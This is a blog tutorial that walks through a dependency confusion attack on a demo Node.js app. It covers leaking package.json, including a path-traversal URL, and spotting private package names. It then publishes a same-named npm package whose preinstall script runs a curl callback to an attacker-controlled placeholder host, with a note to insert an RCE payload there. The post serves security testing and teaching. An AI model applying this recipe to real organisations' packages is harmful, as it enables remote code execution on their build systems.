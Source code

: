 ```yaml
---
title: "Exploiting Dependency Confusion"
date: 2021-07-02 13:37:31
description: Exploiting Dependency Confusion
---
```


This blog is a step by step guide to exploit a demo application vulnerable to Dependency Confusion attack. 

This blog is not about what dependency confusion is, you can read about that [here](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610).

## Introduction to demo app

Our demo application is a simple app with only Backend and Frontend. The Frontend allows users to input a string which is sent to backend and checked against XSS payload in it. Backend checks if string from frontend has XSS payload in it or not and relay response back to Frontend.

### Backend

Backend is running at http://demo-app.com:1337. 

There is an API endpoint `http://demo-app.com:1337/?text=PAYLOAD` that checks for XSS payload in it.

![](/website/assets/images/dep-conf-1.png)

### Frontend

Frontend is running at http://demo-app.com:3000

The Frontend takes a query parameter "text". It then hits the backend API with that query parameter text, looks for XSS in that text, and displays the result backe on screen (see below)

![](/website/assets/images/dep-conf-2.png)

![](/website/assets/images/dep-conf-3.png)


## Overview Dependency Confusion

To Find if an application is vulnerable to Dependency confusion, our first step is to find as much as possible external packages used in the web application.
### What are packages?

We can think of packages as `Developers sharing code with other developers for reuse`. 

### Public vs Private Registry

Suppose a developer develops a mongo database wrapper to enable MongoDB connection. If he wantes to avail this package to other developers, he can make a package and publish it to an `public` registry(central repository) and other developers can reuse it. 

In case you do not want to share your package with everyone in the world and keep it secret to people in your organization you can host your packages on a `private` organization registry and only people in your organization can use it. For example. Let's say you have a custom authentication process that you think everyone can use in your company. Making it public will not be a good idea. So you can always host a private registry and host your private packages there. You can read more [here](https://verdaccio.org/)

## Exploiting demo app

Our primary objective as an attacker is to find as many packages as possible used in Frontend/Backend and find the ones that are private to the organization. Once we know all private packages, we can host them on npm and the web application will download our package instead of the private package(that's how this vulnerability works. It first looks at public registry and then private registry).
### Step 1

Find Packages installed in backend application. For this we will need to leak the **package.json** file somehow. Some ways to do it:

* Directory brute force for sensitive information leak
    * http://site.com/.git can leak full source
    * http://site.com/package.json try reading **package.json** directly
    * http://site.com/package-lock.json try reading **package-lock.json** directly. It also contains information about packages installed.

* Using Nuclei template. [Nuclei](https://github.com/projectdiscovery/nuclei) has numerous template for sensitive information leak. 
    * RUN `nuclei -t ./nuclei-templates/exposures/configs/package-json.yaml -u http://demo-app.com:1337`
    ![](/website/assets/images/dep-conf-14.png)

* Leaking application' source code. If application is vulnerable to Local file disclosure, we can use it to leak **package.json**
    * http://site.com/?file=../../../package.json

* OSINT
    * If its an open source app, you can try finding the source code on GitHub and other places. If we get application's source code, we can extract **package.json** from it

etc.. The Objective here is to use your hacker instinct to find the leak and get the information about packages installed.

Following the above steps, running dirsearch on our demo application backend(http://demo-app:1337/) show’s the following result:

![](/website/assets/images/dep-conf-4.png)

So we can see that **package.json** file is exposed. It lists the following packages installed.
![](/website/assets/images/dep-conf-5.png)

### Step 2

Find packages installed in the Frontend application. Follow the following steps:
* Reviewing frontend source code and looking for imported packages. Look for the term `require()` or `import` in the source code

    ![](/website/assets/images/dep-conf-6.png)

* Frontend Application might be returning `node_modules` folders back to the user. Applications usually do that in debug mode

    ![](/website/assets/images/dep-conf-9.png)


etc.. Again, the goal is to use your hacker instincts and find the packages.

### Step 3

List all the packages 

* Frontend
    * react
    * ez-get-url-params [looks suspecious]
    * react-dom
    * react-refresh
    * url
    ...

* Backend
    * body-parser
    * express
    * xss-finder-0xsapra [looks suspecious]


### Step 4

Now that we have a list of all the packages used in the application, the next step is to find which one of them is **NOT** on `npm`. We can simply do this by visiting https://www.npmjs.com/ and search for the package name. 

So 2 packages which I can't find are:

* xss-finder-0xsapra
![](/website/assets/images/dep-conf-7.png)

* ez-get-url-params
![](/website/assets/images/dep-conf-8.png)

Meaning these are private packages.

### Step 5

Upload the package with similar name  `xss-finder-0xsapra` or `ez-get-url-params` on NPM(with preinstall scripts to get RCE). Here are steps to upload `xss-finder-0xsapra` and perform the attack chain

* git clone https://github.com/0xsapra/dependency-confusion-expoit
* cd dependency-confusion-expoit
* Edit `package.json` following fields
    * Change module name from `"name": "your-module-name",` to `"name": "xss-finder-0xsapra",`. 
    * Change Version from `"version": "1.0.0",` to `"version": "1.0.0",`
        * Th leaked package.json shows `xss-finder-0xsapra` is at version `1.0.0` so we use that same version
    * Change preinstall script from `"preinstall": "curl http://yoursite.co.m"` to `"preinstall": "curl http://yoursite.com"` 
        * preinstall is the bash command that gets executed. Put your RCE payload here
    After Editing, the `package.json` should look like:
    ![](/website/assets/images/dep-conf-10.png)

* After editing package.json, next step is to upload this package to npm. To do this you can follow the steps from [https://zellwk.com/blog/publish-to-npm/](https://zellwk.com/blog/publish-to-npm/) . Here's the same steps:
    * Login/Signup into npm from [https://www.npmjs.com/signup](https://www.npmjs.com/signup)
    * Open terminal/bash and login into `npm` public registry from terminal using `npm login` command
    ![](/website/assets/images/dep-conf-11.png)
    * Run `npm publish .` in terminal and it will publish `xss-finder-0xsapra` to npm
    ![](/website/assets/images/dep-conf-12.png)
* You can now find the package uploaded on [https://npmjs.com](https://www.npmjs.com/package/xss-finder-0xsapra)

### Step 6

Now whenever backend code will run `npm install` it will install our package instead and run the `preinstall` script (curl command in our case).

![](/website/assets/images/dep-conf-13.png)

## Conslusion

Following the above 6 steps, you should be able to properly test an application against dependency confusion vulnerability. 

Nuclei have a template [here](https://github.com/projectdiscovery/nuclei-templates/blob/83ce809e8d427d485f3e0f787886c0eb938736a6/exposures/configs/package-json.yaml) which you can use to find `package.json` file. 

I hope this helps. Thanks for reading 
Special thanks to [madrobot](https://twitter.com/Madrobot_) for proof reading and helping me write this blog.

